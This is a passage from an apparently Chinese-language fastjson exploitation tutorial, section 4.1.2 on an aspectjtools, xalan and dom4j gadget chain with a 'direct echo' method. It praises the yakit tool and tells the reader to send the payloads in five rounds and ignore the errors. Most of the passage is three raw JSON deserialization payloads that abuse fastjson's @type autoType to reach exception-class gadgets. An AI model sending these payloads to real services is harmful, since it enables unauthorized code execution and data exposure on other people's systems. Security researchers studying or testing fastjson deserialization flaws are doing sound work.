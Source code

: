 [![](assets/1706254407-194cc361b684719c96ff7376e6a6dbb6.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020223341147.png)

`yakit`真是太好用了，有木有~

### 4.1.2 aspectjtools+xalan（>=2.4.0）+dom4j（版本无限制）

#### 4.1.2.1 直接回显法

分五次打，中间报错不用管。

`payload41`（组合拳）：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```

```plain
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```plain
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```
